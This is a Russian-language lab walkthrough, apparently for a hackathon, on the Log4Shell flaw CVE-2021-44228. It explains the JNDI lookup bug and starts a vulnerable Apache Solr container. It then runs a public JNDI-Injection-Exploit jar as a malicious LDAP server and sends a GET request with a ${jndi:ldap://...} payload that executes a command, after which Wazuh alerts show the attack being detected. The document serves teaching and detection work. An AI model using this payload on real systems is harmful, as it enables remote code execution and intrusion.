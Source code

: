 # CVE-2021-44228

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
* [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228)
* [https://securelist.ru/cve-2021-44228-vulnerability-in-apache-log4j-library/104144/](https://securelist.ru/cve-2021-44228-vulnerability-in-apache-log4j-library/104144/)

Уязвимость удаленного выполнения кода CVE-2021-44228 была обнаружена в библиотеке Apache Log4j части Apache Logging Project. Если какой-либо продукт для записи файлов журналов использует уязвимую версию данной библиотеки с поставляемым JNDI-модулем, то есть большая вероятность эксплуатации CVE-2021-44228 в этом продукте. Уязвимы почти все версии Log4j, начиная с 2.0-beta9 и заканчивая 2.14.1.\
Библиотека Log4j имеет механизм Lookup, который используется для выполнения запросов путем обработки специального синтаксиса в форматной строке. Например, с помощью него можно запрашивать различные параметры, такие как версия окружения Java через _${java:version}_ и т. д. При этом если указать в строке в качестве ключа _jndi_, то механизм Lookup будет осуществляться через JNDI API. По умолчанию все запросы осуществляются с префиксом _java:comp/env/_, однако авторы предусмотрели возможность указания собственного префикса — для этого в ключе надо поставить символ двоеточия. Здесь и кроется уязвимость: если указать в качестве ключа, например, _jndi:ldap://_, то запрос будет осуществляться на указанный LDAP-сервер. Также возможно использование и других протоколов для взаимодействия, например LDAPS, DNS, RMI.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/log4j/CVE-2021-44228

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8983 будет доступен портал администратора Apache Solr

<figure><img src="../../.gitbook/assets/cve-2021-44228(1).png" alt=""><figcaption></figcaption></figure>

Для реализации уязвимости сперва нужно поднять зловредный LDAP-сервер. Сделать это можно с помощью [этого](https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar) .jar файла

Для этого выполните команду&#x20;

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar [-C] [command] [-A] [address]
```

Где в качестве параметра -C в кавычках укажите команду, которая должна выполниться, а в качестве параметра -A в кавычках укажите ip машины, на котором будет поднят LDAP-сервер

<figure><img src="../../.gitbook/assets/cve-2021-44228(2).png" alt=""><figcaption></figcaption></figure>

Затем отправьте соответствующий GET-запрос на уязвимую машину

```
GET /solr/admin/cores?action=${jndi:ldap://адрес_LDAP-сервера} HTTP/1.1
Host: ваш-ip:8983
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```

<figure><img src="../../.gitbook/assets/cve-2021-44228(3).png" alt=""><figcaption></figcaption></figure>

После отправки запроса на уязвимой машине будет создан файл /tmp/success

<figure><img src="../../.gitbook/assets/cve-2021-44228(4).png" alt=""><figcaption></figcaption></figure>

В Wazuh ([https://ваш-ip/app/wazuh](https://xn---ip-5cdj7k/app/wazuh)) мы можем увидеть соответствующие алерты об эксплуатации CVE-2021-44228

<figure><img src="../../.gitbook/assets/cve-2021-44228(5).png" alt=""><figcaption></figcaption></figure>
